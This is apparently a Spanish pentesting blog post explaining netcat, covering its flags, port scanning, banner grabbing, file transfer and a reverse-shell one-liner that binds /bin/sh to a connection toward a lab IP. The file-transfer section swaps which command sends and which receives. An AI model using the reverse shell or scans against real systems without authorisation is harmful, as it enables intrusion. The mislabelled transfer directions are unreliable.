 ```yaml
---
title: Netcat
author: conde
date: 2022-08-16 11:16:00 -03000 
categories: [Hacking, Pentesting]
tags: [Pentesting, guide]
math: true
mermaid: true
---
```


## Índice
- [Definición](#definción)
- [Parámetros](#parámetros)
- [Escáneo de puertos](#escáneo)
- [Visualizar banner](#banner)
- [Enviar Archivos](#archivos)
- [Reverse Shell](#shell)

### Definción
Es una herramienta de red que permite a través de intérprete de comandos y con una sintaxis sencilla abrir puertos TCP/UDP en un HOST,
asociar una shell a un puerto en concreto y forzar conexiones UDP/TCP. Esta herramienta es conocida como la **navaja suiza** ya que sirve 
para todos en el mundo del hacking. 

### Parámetros 
- **-n** ➜ Deshabilita la resolución DNS 
- **-v** ➜ Modo verbose 
- **-l** ➜ Modo listener (Crear un handler)
- **-w** ➜ Timeout
- **-e** ➜ Ejecución de comandos 
- **-p** ➜ Puerto 

### Escáneo
Vemos un primer ejemplo, de un escaneo a un puerto en concreto.

```bash
nc -vw2 192.168.10.123 80
```
Tambien podemos hacer un escaneo por rangos. 

```bash
nc -vw2 192.168.10.123 1-100
```

### Banner
Podemos visualizar el banner para ver que servicio corre y versión. 

```bash
nc -nv 192.168.10.123 80
```

### Archivos
Podemos enviar archivos de un host a otro. Para enviar un archivo usaremos la siguiente sintaxis. 

```bash
nc 192.168.10.123 1111 > script.py
```
Para recibirlo ejecutamos lo siguiente.

```bash
nc -lvp 1111 < script.py
```

### Shell
Al igual que con python, php, bash, powershell, etc, podemos hacer una conexión para conseguir una shell. Primero nos ponemos a la 
escucha esperando la conexión. 

```bash
nc -lvnp 1111
```
Ahora que estamos a la escucha, vamos a enviarnos la shell, para poder ejecutar comandos del sistema. 

```bash
nc 192.168.10.123 1111 -e "/bin/sh"
```
